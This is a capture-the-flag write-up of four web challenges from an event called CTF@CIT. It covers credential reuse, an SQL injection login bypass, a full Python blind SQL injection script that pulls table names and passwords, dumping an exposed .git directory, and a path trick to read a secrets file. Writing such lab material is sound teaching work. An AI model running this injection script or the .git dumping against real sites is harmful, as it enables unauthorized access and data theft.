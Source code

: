 ```yaml
---
title: 'CTF@CIT'
description: 'Lorem ipsum dolor sit amet, consectetur adipiscing elit'
date: 2025-05-02
image: './image.png'
---
```


# keeping up with the credentials

## Description

I'm all about strong passwords. If you're not using one, you're just playing yourself.

This challenge requires something that can be acquired in any of the other web challenges.

## Solution

Here we've been given with a website looking like this.

 ![](./img1.png)

Since we obtained the credentials of `admin:9f3IC3uj9^zZ` from @[breaking authentication](mention://575ed52d-d831-46b9-a70b-afad2ee03550/document/7bf4b60e-7a20-4606-9aa5-b092e8c12ebf) challenge, we try to login and we get to a debug page, which is not that useful.

Now usually when we login it's a `GET` request

 ![](./img2.png)

Let's just try changing that to a POST request, and it'll send a `302 found` of `/admin.php` and going to `/admin.php` we get the flag.

 ![](./img3.png)


# breaking authentication

## Description

"Say my username."

## Solution

Here we've been given with a website which looks like this.

 ![](./img4.png)

The first line of thought would be to do SQLi. So writing `admin' OR '1'='1` we get admin panel access but there's nothing there so go ahead and do blind SQLi.


Writing this script we find the tables in the database schema-

```python
import requests

url = "http://23.179.17.40:58001/"

# Query to extract all table names
query = "(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = database())"

# Find the length first
k = 0
for i in range(1, 300):  # Tables might be many, increased range
    print("\r -> trying length ", i, end="")
    payload = '\' OR LENGTH(' + query + ') = \'' + str(i)
    data = {'username': 'admin', 'password': payload, 'login': 'Login'}
    r = requests.post(url, data=data, allow_redirects=True)
    if r.url.endswith("/admin.php"):
        print(f"\n[+] Found length of table names output: {i}")
        k = i
        break

if k == 0:
    print("[-] Length of response is greater than 300, adjust range")
    exit()

returnval = ""
q2 = '\' OR ASCII(SUBSTRING(' + query + ','

for i in range(1, k + 1):
    low = 32
    high = 126
    while low <= high:
        mid = (low + high) // 2
        # Prepare payload to check if character ASCII <= mid
        payload = q2 + str(i) + ",1)) <= '" + str(mid)
        data = {'username': 'admin', 'password': payload, 'login': 'Login'}
        r = requests.post(url, data=data, allow_redirects=True)

        if r.url.endswith("/admin.php"):
            # ASCII code is <= mid
            high = mid - 1
        else:
            # ASCII code is > mid
            low = mid + 1

    found_char = chr(low)
    returnval += found_char
    print(f"[+] Found character {i}: {found_char}")

print(f"\n[+] Final extracted table names: {returnval}")
```

The tables we find are `users` and `secrets`

In the secrets table, the columns are name and value, and altering the query to 

`query = "(SELECT GROUP_CONCAT(password) FROM users)"`

we get the flag: `CIT{36b0efd6c2ec7132}`

# commit & order: version control unit

## Description

In software development, the repository is represented by two separate yet equally important branches...

## Solution

Here we've been given a website which looks like this.

 ![](./img5.png)

Since it talks about commit order and version control, we proceed to `/.git/HEAD` endpoint giving another endpoint to `ref: refs/heads/master`

From here, we use `GitTools`, specifically `Dumper` to get all the folders from the site and `Extractor` to extract the source code prior to each commit.

After extracting, we see that there are 5 folders with their respective commits.

 ![](./img6.png)

We examine the source code for each of the folders and in the `commit: 1-68f8fc..` we see the source code:

```markup
<div class="warning-banner">
      <svg width="24" height="24" fill="currentColor" viewBox="0 0 24 24">
        <path d="M1 21h22L12 2 1 21zm12-3h-2v2h2v-2zm0-8h-2v6h2v-6z" />
      </svg>
      This admin panel is under construction. No actual functionality is available yet. But here, have this: Q0lUezVkODFmNzc0M2Y0YmMyYWJ9
    </div> 
 </div>
```

We find a base64 encoded text and decoding it we obtain: `CIT{5d81f7743f4bc2ab}`

# how I parsed your JSON

## Description

"This is the story of how I defined your schema."

The flag is in secrets.txt

## Solution

Here we've been given a website which looks like this.

 ![](./img7.png)

This application uses `FlaskMyAdmin` which uses SQL like syntax, and our aim is to access secrets.txt.

In the site itself it defaults the `employee.json` table to `employee`. Hence to obtain the flag we'd have to intercept the request on Burp Suite and alter the request to access `/app/secrets.txt.txt`

 ![](./img8.png)
 Doing this we obtain the flag: `CIT{235da65aa6444e27}`